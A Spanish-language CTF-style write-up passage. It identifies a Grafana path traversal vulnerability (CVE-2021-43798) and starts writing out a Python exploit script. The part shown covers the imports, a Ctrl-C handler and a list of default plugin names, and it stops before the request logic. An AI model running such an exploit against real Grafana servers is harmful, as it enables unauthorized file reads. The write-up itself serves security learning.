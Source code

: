 Encontramos que una version posterior es vulnerable a un **Path Traversal**, para asegurarnos buscamos en internet vulnerabilidades con la respectiva versión:

> [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)

![CVE detail](CVE-2021-43798_detail.png){: .shadow}

Como validamos que es vulnerable, basandonos en el script original tenemos el siguiente exploit:

```python
"""
CVE-2021-43798
--------------
Description: Vulnerable path traversal in Grafana for version v8.0.0-beta1 to v8.3.0
"""

import argparse
import signal
import sys

from random import choice
from requests import Session, Request

# Ctrl + c
# (function)
def signal_handler(signum, frame):
	sys.exit('\n[!] User terminated.')

# (signal)
signal.signal(signal.SIGINT, signal_handler)


## Default plugins Grafana (https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/)
plugins = [ 
	"alertlist",
	"annolist",
	"barchart",
	"bargauge",
	"candlestick",
	"cloudwatch",
	"dashlist",
	"elasticsearch",
	"gauge",
	"geomap",
	"gettingstarted",
	"grafana-azure-monitor-datasource",
	"graph",
	"heatmap",
	"histogram",
	"influxdb",
	"jaeger",
	"logs",
	"loki",
	"mssql",
	"mysql",
	"news",
	"nodeGraph",
	"opentsdb",
	"piechart",
	"pluginlist",
	"postgres",
	"prometheus",
	"stackdriver",
	"stat",
```